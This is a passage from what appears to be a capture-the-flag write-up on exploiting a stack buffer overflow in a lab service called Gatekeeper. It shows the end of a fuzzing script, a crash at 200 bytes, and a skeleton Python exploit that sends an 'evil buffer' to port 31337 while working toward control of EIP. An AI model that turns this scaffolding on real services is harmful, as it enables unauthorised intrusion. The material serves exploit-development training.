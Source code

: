 ```
    except socket.error as e:
        print(f"Fuzzing crashed at {len(payload)} bytes: {e}")
        break  # Stop if a crash occurs

    # Increase payload size
    payload += "A" * increment
    time.sleep(1)  # Short delay before the next attempt
```
After running the script you will find that it crached at 200 bytes

![img-description](/assets/img//Gatekeeper/GateKeeper_Fuzz.png)
_Fuzzing_

#### Crash Replication & Controlling EIP

Now as we know when it crached let's start to gain access to our system we will start with this script:

```
import socket

ip = "192.168.1.20"
port = 31337

offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Now Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server
